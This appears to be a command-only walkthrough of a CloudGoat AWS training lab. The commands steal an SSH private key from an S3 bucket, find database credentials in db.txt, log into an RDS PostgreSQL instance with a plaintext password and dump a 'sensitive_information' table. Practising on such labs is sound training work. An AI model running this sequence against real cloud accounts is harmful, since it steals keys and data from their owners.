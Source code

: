 `aws configure --profile McDuck`

`aws s3 ls --profile McDuck`

`aws s3 ls s3://<bucket> --recursive --profile McDuck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile McDuck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile McDuck`

`aws ec2 describe-instances --profile McDuck`

`chmod 400 cloudgoat`

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat`

`\dt`

`select * from sensitive_information;`